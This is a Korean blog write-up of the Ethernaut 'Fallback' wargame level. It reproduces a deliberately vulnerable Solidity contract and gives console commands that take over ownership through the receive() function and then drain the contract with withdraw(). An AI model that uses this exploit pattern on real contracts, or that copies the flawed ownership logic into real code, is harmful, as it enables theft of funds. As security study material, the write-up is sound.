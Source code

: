 ```yaml
---
emoji: 🧢
title: (Ethernauts 취약점 공부) 1. Fallback 
date: '2022-1-2 1:11:00'
author: 한성원
tags: ethernauts fallback vulnerability
categories: 취약점분석
---
```



# 👋 1. Fallback
__Difficulty 1/10__

직접 푼 Ethernauts 풀이를 적어보려고 한다. 취약점에 공부했던 취약점을 실제로 공격해보며 복습 및 실습을 해볼수 있어 좋은 것 같다.

- 승리 조건
- 코드 분석
- 풀이
순서로 진행 될 것이다.

- - -

## 승리 조건
- contract의 ownership을 뺐어오기
- contract의 balance를 0으로 만들기

- - -

## 코드 분석
분석은 주석에!

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Fallback {

    using SafeMath for uint256;

    // 각각의 address당 ether 기여도(contribution)
    mapping(address => uint) public contributions;

    // Fallback Contract의 owner address
    address payable public owner;

    //constructor
    constructor() public {
        // Deployer를 owner로 설정
        owner = msg.sender;

        // Deployer의 기여도를 1000 ether로 설정
        contributions[msg.sender] = 1000 * (1 ether);
    }

    //Owner만 사용할 수 있게하는 modifier
    modifier onlyOwner {
            // msg.sender가 owner인지 아닌지 확인
            require(
                msg.sender == owner,
                "caller is not the owner"
            );
            _;
        }

    //contract의 기여도를 올릴 수 있는 function이다.
    //payable로 선언되어 ether를 전송하고 받을 수 있다.
    function contribute() public payable {
        //msg.sender가 보낸 ether의 양이 0.001 이하인지 확인
        require(msg.value < 0.001 ether);

        //msg.sender의 기여도(contributions)를 msg.value만큼 올린다.
        contributions[msg.sender] += msg.value;

        //만약 msg.sender의 contributions가 owner의 contributions보다 크다면 ownership이 transfer된다.
        //초기에 owner의 contributions은 1000 ether이기 때문에 ownership을 바꾸기 위해서는 1000 ether이상의 기여해야한다.
        if(contributions[msg.sender] > contributions[owner]) {
        owner = msg.sender;
        }
    }

    //기여도를 확인할 수 있는 view function
    function getContribution() public view returns (uint) {
        //msg.sender의 기여도를 return 한다.
        return contributions[msg.sender];
    }

    //contract가 가지고 있는 모든 balance(ether)를 owner에게 전송한다.
    function withdraw() public onlyOwner {
        owner.transfer(address(this).balance);
    }

    //payable로 선언되어 ether를 전송하고 받을 수 있다.
    //receive function
    receive() external payable {
        //msg.sender의 msg.value가 0보다 크고 기여도(contributions)가 0보다 큰지 확인한다
        require(msg.value > 0 && contributions[msg.sender] > 0);

        //owner를 msg.sender로 바꾼다.
        owner = msg.sender;
    }
}
```

- - -

## 풀이
우리는 2가지의 문제를 풀어야 한다.
1. contract의 ownership을 뺐어오기
2. contract의 balance를 0으로 만들기

차례차례 풀어보겠다.
코드를 봤을 떄 contract의 ownership을 가져올 수 있는 방법은 2가지가 있다.
- contribute()
- receive()

1. contribute()를 이용해 owner가 되려면 초기 owner의 contributions 1000 ether보다 더 큰 돈을 contract로 보내야 한다.
2. 하지만 contribute()의 require을 보면 한번에 0.001 ether이하의 ether만 보낼 수 있게 되어있다. contract에서 의도한대로 owner가 되려면 __1,000,000 + a__ 번 전송해야한다. 
3. 이 방법은 비용도 많이들고 엄청난 시간이 걸리기 때문에 receive 함수를 확인해보자!
4. receive 함수를 보면 msg.value나 0보다 크고 contributions가 0보다 크면 owner를 msg.sender로 바꿀 수 있다.
5. 그렇다면 contribute() 호출해 작은 값을 보내어 contributions를 0을 초과하게 만든다음 receive함수를 호출하면 owner를 가져올 수 있다.

모든 코드는 console창에서 이루어진다. 
ctrl + shift + i를 눌러 console창을 활성화 시키자
```javascript
//0.001보다 작은 0.0001을 보낸다.
await contract.contribute.sendTransaction({value:toWei('0.0001')})
//나의 contribution을 확인한다.
fromWei(await contract.getContribution())
//contract의 balance를 확인한다.
await getBalance(instance)
//모두 0.0001과 같을 것이다!

//나의 contribution이 0을 초과했으니 recevice()를 실행 시킬 수 있는 명령어를 실행한다.
contract.sendTransaction({value:toWei('0.0001')})
//contract의 owner address를 확인한다.
await contract.owner()
//나의 address를 확인한다.
player
//play(나)이 owner가 된 것을 확인 할 수 있다.

```
이렇게 ownership을 가져올 수 있었다.   

다음으로 contract의 balance를 0으로 만들기이다. 
contract의 balance를 0을로 만들기는 매우 쉽다!
owner만 call할 수 있는 함수인 withdraw을 call하기만 하면 된다.

```javascript
//withdraw한다.
await contract.withdraw()

//contract의 balance가 0이 된것을 확인한다.
await getBalance(instance)
```

Submit instance를 누르고 조금 기다리면 block이 mine되고, 다음과 같이 뜨면서 다음 level로 넘어갈 수 있다.

![fallback finish](./fallback_finish.png)

- - -
## 마무리
얼마전에 공부했던 king of Ether(DOS with unexpected revert)가 생각난다. revert를 통해 하는 ownership을 가져오는건 아니었지만 비슷한 점이 많은 것 같았다. smart contract을 짤때 logic은 괜찮아보여도 우리가 생각하지 못한 허점이 있을 수 있다! 항상 조심하고 또 조심하자!
나중에는 보안감사(auditing)도 배워 내의 smart contract를 audit 할 수 있었으면 좋겠다! ~~이거로 취업 해야지ㅎ~~

고작 1단계를 완료한 것이지만 게임을 통해 배우니 더 재밌는 것 같다. 앞으로도 화이팅!

- - -
## 기타 정보
- rinkeyb network ether faucet: https://faucets.chain.link/rinkeby
- ethernaut: https://ethernaut.openzeppelin.com/

```toc

```